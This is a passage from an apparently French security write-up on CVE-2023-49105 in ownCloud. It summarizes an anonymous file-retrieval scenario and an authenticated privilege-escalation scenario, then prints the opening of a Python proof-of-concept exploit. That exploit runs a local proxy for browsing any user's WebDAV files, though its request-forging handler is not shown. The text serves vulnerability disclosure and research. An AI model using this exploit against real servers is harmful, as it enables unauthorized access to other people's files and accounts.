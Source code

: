 ### En bref

En résumé, il existe 2 scénarios d'exploitation possibles : 

1. **Scénario anonyme** : récupérer tous les fichiers de n'importe quel compte en étant anonyme.
2. **Scénario authentifié** : élever ses privilèges de simple utilisateur en tant qu'administrateur afin d'exécuter des commandes.


👇 Un PoC est disponible sur [GitHub](https://github.com/ambionics/owncloud-exploits/blob/main/pwncloud-webdav.py) et juste en dessous

```python
#!/usr/bin/env python3
# Owncloud Privilege Escalation CVE-2023-49105 pwnCloud
# 2023-12-05
# cfreal
#
# DESCRIPTION
#
# Exploit demonstrating a consequence of CVE-2023-49105: arbitrary access to WEBDAV
# resources, including every file stored by a user.
#
# EXAMPLE
#
# $ ./pwncloud-webdav.py http://target.com/ admin
#
# REQUIREMENTS
#
# requires ten (https://github.com/cfreal/ten)
#

import hashlib
from http.server import SimpleHTTPRequestHandler, ThreadingHTTPServer

from ten import *
from tenlib.transform import url as turl


@entry
def main(url: str, username: str, listen: str = "localhost:8800") -> None:
    # Setup ProxyHandler
    ProxyHandler.session = ScopedSession(url)
    # ProxyHandler.session.burp()
    ProxyHandler.username = username

    # Display info
    msg_success(f"Proxy server running on {listen}")

    dav_url = f"dav://anonymous@{listen}/remote.php/dav"

    msg_info(f"Browse user files: {dav_url}/files/{username}")
    msg_info(f"Browse everything: {dav_url}")

    # Setup HTTP server
    listen_host, listen_port = listen.split(":")
    listen_port = int(listen_port)

    proxy_server = ThreadingHTTPServer((listen_host, listen_port), ProxyHandler)

    try:
        proxy_server.serve_forever()
    except KeyboardInterrupt:
        msg_failure("Shutting down the proxy server.")
        proxy_server.server_close()
```